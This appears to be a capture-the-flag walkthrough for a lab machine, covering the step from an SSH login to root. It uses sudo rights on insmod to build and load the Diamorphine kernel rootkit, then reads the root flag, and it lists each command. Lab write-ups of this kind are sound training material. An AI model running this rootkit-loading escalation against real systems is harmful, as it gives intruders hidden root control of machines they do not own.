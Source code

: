 
Connect to SSH

    ssh -i pinky pinky@192.168.56.119 -p 5555

*note: IP changed as I restarted the box thinking I had messed up PSMCCLI*


![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553986664477_image.png)


Privilege check with sudo

    sudo -l

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553986774854_image.png)


two binaries look to be able to run as root. Both are kernel modules and and which will require to be re-wrote or we can use a rootkit Diamorphine (github link: https://github.com/m0nad/Diamorphine)


# Path to Root

Premade-Kernal Exploit Diamorphine Install:
This exploit is unique in that it allow for it to be ran via an invisuble module sending a signal 64 to any pid.

Verify the kernal is at least 2.6x/3.x/4.x

    uname -r

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1554050118743_image.png)


Downloaded clone of repository && move `diamorphine.c`, `diamorphine.h` and `Makefile` to target and `make`:

    git clone https://github.com/m0nad/Diamorphine.git

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1554050222124_image.png)


Execute insmod with sudo:

    sudo /sbin/insmod diamorphine.ko

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1554050339259_image.png)


Kill a pid with `-64` invisibility:

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1554050369157_image.png)




## Root&Loot
    cat /root/root.txt

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1554050448137_image.png)


“Bring me the root!” -exec

